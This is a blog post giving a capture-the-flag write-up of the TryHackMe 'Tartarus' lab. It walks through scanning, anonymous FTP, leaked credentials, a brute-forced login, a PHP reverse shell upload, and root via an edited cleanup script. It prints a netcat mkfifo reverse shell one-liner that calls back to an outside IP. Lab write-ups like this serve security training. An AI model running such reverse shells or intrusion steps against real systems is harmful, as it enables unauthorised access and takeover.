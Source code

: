 ```yaml
---
layout: post
title: Tartarus Writeup
date: 2020-08-15 12:00:00 +5:30
categories: [TryHackMe, Medium]
image: /assets/img/tartarus/header.png
tags: [tryhackme, ctf, http, leakedinfo] # add tag
---
```


## Description:

The Following Post is writeup of Tartarus room of tryhackme <https://tryhackme.com/room/tartarus>

|Machine|Details
|:---|:--
|OS | Linux
|Rating | Easy
|Creator | csenox

## Summary:

  The Room will have a anonymous ftp login upon further enum we will get a file which will redirect us to login page.
  Moving to port 80 we will get robots.txt which contains admin directory where we will get creds and user.
  Brute it to login and got a upload section. Upload a phpshell and will get www-data now you will see a python
  script in user directory put a nc reverse shell and root. :)

## Walkthrough:

### Enumeration

As usual
Lets start with nmap scan
```terminal
└──╼ $nmap -sC -sV 10.10.156.233
Starting Nmap 7.80 ( https://nmap.org ) at 2020-08-11 21:54 EDT
Nmap scan report for 10.10.156.233
Host is up (0.22s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 ftp      ftp            17 Jul 05 21:45 test.txt
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:10.9.17.224
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 98:6c:7f:49:db:54:cb:36:6d:d5:ff:75:42:4c:a7:e0 (RSA)
|   256 0c:7b:1a:9c:ed:4b:29:f5:3e:be:1c:9a:e4:4c:07:2c (ECDSA)
|_  256 50:09:9f:c0:67:3e:89:93:b0:c9:85:f1:93:89:50:68 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 58.59 seconds
```

#### FTP

let's dirbust it
```terminal
226 Directory send OK.
ftp> cd ...
250 Directory successfully changed.
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    3 ftp      ftp          4096 Jul 05 21:31 .
drwxr-xr-x    3 ftp      ftp          4096 Jul 05 21:31 ..
drwxr-xr-x    2 ftp      ftp          4096 Jul 05 21:31 ...
226 Directory send OK.
ftp> ls -lah
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    3 ftp      ftp          4096 Jul 05 21:31 .
drwxr-xr-x    3 ftp      ftp          4096 Jul 05 21:31 ..
drwxr-xr-x    2 ftp      ftp          4096 Jul 05 21:31 ...
226 Directory send OK.
ftp> cd ...
250 Directory successfully changed.
ftp> ls -lah
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 ftp      ftp          4096 Jul 05 21:31 .
drwxr-xr-x    3 ftp      ftp          4096 Jul 05 21:31 ..
-rw-r--r--    1 ftp      ftp            14 Jul 05 21:45 yougotgoodeyes.txt
226 Directory send OK

Never think this way
```
TBH i stuck at this but got it thanks

#### HTTP

we got robots.txt

User-Agent: * <br/>
Disallow : /admin-dir <br />
I told d4rckh we should hide our things deep.

![Page](/assets/img/tartarus/webserver.png)

I got creds and userid <br />
Let's check out what else we can do.

We have admin login let's bruteforce it

![login](/assets/img/tartarus/login.png)

![Bruteforce](/assets/img/tartarus/bruteforce.png)

Got a upload directory after successful login

![Page](/assets/img/tartarus/upload.png)

### Exploitation:

We will start Exploitation by uploading a php reverse Shell<br />
![port 80](/assets/img/tartarus/webshellupload.png)

Execute and get Shell

```terminal
www-data@ubuntu-xenial:/$ ls
bin   dev  home        initrd.img.old  lib64       media  opt   root  sbin  srv  tmp  vagrant  vmlinuz
boot  etc  initrd.img  lib             lost+found  mnt    proc  run   snap  sys  usr  var      vmlinuz.old
www-data@ubuntu-xenial:/$ cd /home
www-data@ubuntu-xenial:/home$ ls
cleanup  d4rckh  thirtytwo
www-data@ubuntu-xenial:/home$ cd d4rckh/
www-data@ubuntu-xenial:/home/d4rckh$ ls
cleanup.py  user.txt
www-data@ubuntu-xenial:/home/d4rckh$ cat user.txt

www-data@ubuntu-xenial:/home/d4rckh$ cat cleanup.py
# -*- coding: utf-8 -*-
#!/usr/bin/env python
import os
import sys
try:
        os.system('rm -r /home/cleanup/* ')
except:
        sys.exit()
```
In place of os system let's put nc reverse Shell
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f



Yessss
```terminal
┌─[silver@parrot]─[~/Desktop/tryhackme/tartarus]
└──╼ $pwncat --listen --port 4444
[10:42:02] received connection from 10.10.168.38:35120                                                                  connect.py:149
[10:42:05] new host w/ hash 43d11761713cfc52d9e6fe891bda5715                                                             victim.py:328
[10:42:21] pwncat running in /bin/sh                                                                                     victim.py:362
initializing: complete ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 100.0%
[10:42:30] pwncat is ready 🐈                                                                                            victim.py:758


\[\033[01;31m\](remote)\[\033[00m\] \[\033[01;33m\]\u@\h\[\033[00m\]:\[\033[01;36m\]\w\[\033[00m\]$ bash
root@ubuntu-xenial:~# id
uid=0(root) gid=0(root) groups=0(root)
root@ubuntu-xenial:~#
```
Rooted :-)

